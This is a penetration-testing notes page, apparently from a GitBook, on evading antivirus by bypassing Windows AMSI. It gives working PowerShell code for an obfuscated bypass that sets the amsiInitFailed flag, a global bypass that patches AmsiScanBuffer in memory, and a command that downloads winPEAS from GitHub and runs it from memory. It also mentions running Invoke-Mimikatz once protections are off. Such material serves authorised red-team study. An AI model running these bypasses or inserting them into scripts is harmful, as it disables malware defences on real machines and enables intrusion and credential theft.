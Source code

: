 ```yaml
---
description: >-
  Getting your payload and tools through antivirus protections by obfuscating
  them or disabling protections
---
```


# Antivirus Evasion

## AMSI Bypass

Windows's Antimalware Scan Interface (AMSI) tries to protect systems against suspicious scripts, but like most things, can easily be bypassed. When you run PowerShell code from the command-line, or from a `.ps1` script, AMSI will look at the code and if it finds any malicious-looking code, it will throw a `ScriptContainedMaliciousContent` error and not execute it. When you want to execute your exploit script, this can get in the way.&#x20;

A straightforward way to **test** if AMSI is enabled is to include a string that is always blocked, such as "`Invoke-Mimikatz`".&#x20;

There are many different bypasses that will disable AMSI, without being detected itself. These evolve over time as AMSI blocks more ways, but attackers are quick to find new bypasses by obfuscating certain parts in different ways.&#x20;

There are 2 types of bypasses, as explained clearly in the post below:

{% embed url="https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/" %}
Powershell-only VS global AMSI bypasses explained
{% endembed %}

1. **PowerShell-only**: This only prevents the `ScriptContainedMaliciousContent` check from blocking your exploit, but not anything more. When loading .NET assemblies it might still fail
2. **Global**: Disable all AMSI protections, including .NET assemblies

{% embed url="https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell" %}
List of many different known AMSI bypasses that are updated
{% endembed %}

{% embed url="https://amsi.fail/" %}
Automatic PowerShell AMSI bypass generator, creates a new bypass every time
{% endembed %}

Some **PowerShell-only** bypasses like the following will disable AMSI for all future PowerShell commands in that same process:

{% code title="Obfuscated PowerShell-only" %}
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$me = $field.GetValue($field)
$me = $field.SetValue($null, [Boolean]"hhfff")
```
{% endcode %}

Afterward, you can successfully run scripts that AMSI would normally block, like `Invoke-Mimikatz`. But with such a bypass not every protection is gone yet. When you load a .NET assembly for example you might receive the following cryptic error:

<figure><img src="../.gitbook/assets/image (3) (4).png" alt=""><figcaption><p>Screenshot from @S3cur3Th1sSh1t when trying to execute something that requires loading a .NET assembly</p></figcaption></figure>

To get past this, we'll need a **global** bypass that disables it completely. If you have done the PowerShell-only bypass already, you don't even need to obfuscate it anymore:

{% code title="Unobfuscated global bypass" %}
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
{% endcode %}

After running this, every AMSI protection should be disabled and you are able to run .NET assemblies again. For example, [WinPEAS](https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md) can be run like this:

```powershell
# Get latest release
$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe"

# Download and execute winPEASany from memory in a PS shell
$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "$url" -UseBasicParsing | Select-Object -ExpandProperty Content)); 
[winPEAS.Program]::Main("")
```
